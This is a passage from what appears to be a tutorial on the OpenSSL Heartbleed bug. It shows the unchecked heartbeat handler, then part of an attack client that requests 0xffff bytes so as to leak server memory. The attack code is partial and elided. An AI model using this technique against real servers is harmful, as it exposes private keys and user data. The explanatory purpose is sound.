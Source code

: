 ```c
int tls1_process_heartbeat(SSL *s){
   unsigned char *p = &s->s3->rrec.data[0], *pl;
   unsinged short hbtype;     // message type
   unsigned int payload;       // payload length
   hbtype = *p++;        // read message type
   n2s(p, payload);        // read payload length. n2s is network to system for 2 bytes
   pl = p;                 // pl points to the beginning of payload
   if (hbtype == TLS1_HB_REQUEST){ // respond to heartbeat request
      unsigned char *buffer, *bp;
      buffer = OPENSSL_malloc(1+2+payload+padding);
      bp=buffer;
      *bp++=TLS1_HB_RESPONSE;   // write message type
      s2n(payload, bp);                // write payload length. s2n is system to network
      memcpy(bp, pl, payload);         // echo the same payload
      .....
      ssl3_write_bytes(s, TLS1_RT_HEARTBEAT, buffer, ...);  // and send it back
   }
}
```

## 3. Heartbleed attack

By setting payload length to 0xffff, we can read 0xffff bytes of memory in the SSL server.

`hb.c` :

```c
.............
void *heartbleed(connection *c, unsigned int type){
// type is 1. send heartbeat
   unsigned char *buf, *p;
   buf=OPENSSL_malloc(1+2); // for message type and length
   p=buf;
   *p++=TLS1_HB_REQUEST; // heartbeat request
   // now fill in length field
   switch (type){
      case 0:
         s2n(0x0, p);
         break;
      case 1:
         s2n(0xffff, p);  // this is our case. set length=0xffff
         break;
      default:
         s2n(type, p);   // the user can specify the length
         break;
   }
   // now send
   ret=ssl3_write_bytes(c->sslHandle, TLS1_RT_HEARTBEAT, buf, 3);
   OPENSSL_free(buf);
   return c;
}
```
